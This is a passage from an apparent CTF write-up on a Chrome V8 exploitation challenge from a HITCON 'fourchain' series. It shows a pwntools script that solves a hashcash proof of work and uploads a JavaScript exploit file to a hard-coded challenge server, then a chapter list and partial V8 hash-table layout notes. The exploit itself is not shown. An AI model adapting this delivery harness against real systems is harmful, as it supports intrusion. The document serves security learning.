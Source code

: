 ```py
from pwn import *
import subprocess

HOST = '35.227.151.88'
PORT = 30262

pow_re = re.compile(rb'hashcash -mb25 ([a-zA-Z0-9]+)')

r = remote(HOST, PORT)
r.recvline()
challenge = r.recvline()
print(challenge)
match = pow_re.search(challenge).group(1).strip()
response = subprocess.check_output(['hashcash', '-mb25', match]).strip()
r.sendline(response)

exploit = read('pwn.js')

r.sendlineafter(b'Your javscript file size: ( MAX: 2000 bytes )', str(len(exploit)).encode())
r.sendlineafter(b'Input your javascript file:', exploit)

s = r.recvall(timeout=1).replace(b"\n", b"").decode()
print(re.findall(r'hitcon\{[ -~]+\}', s))
```

## Table of Contents

- [Prologue](./fourchain-prologue): Introduction
- **[Chapter 1: Hole](./fourchain-hole) (You are here)**
- [Chapter 2: Sandbox](./fourchain-sandbox): Pwning the Chrome Sandbox using `Sandbox`.
- [Chapter 3: Kernel](./fourchain-kernel): Chaining the Cross-Cache Cred Change
- [Chapter 4: Hypervisor](./fourchain-hv): Lord of the MMIO: A Journey to IEM
- [Chapter 5: One for All](./fourchain-fullchain): Uncheesing a Challenge and GUI Troubles
- [Epilogue](./fourchain-epilogue): Closing thoughts

[0]: element count
[1]: deleted element count
[2]: bucket count
[3..(3 + NumberOfBuckets() - 1)]: "hash table",
[3 + NumberOfBuckets()..length]: "data table", an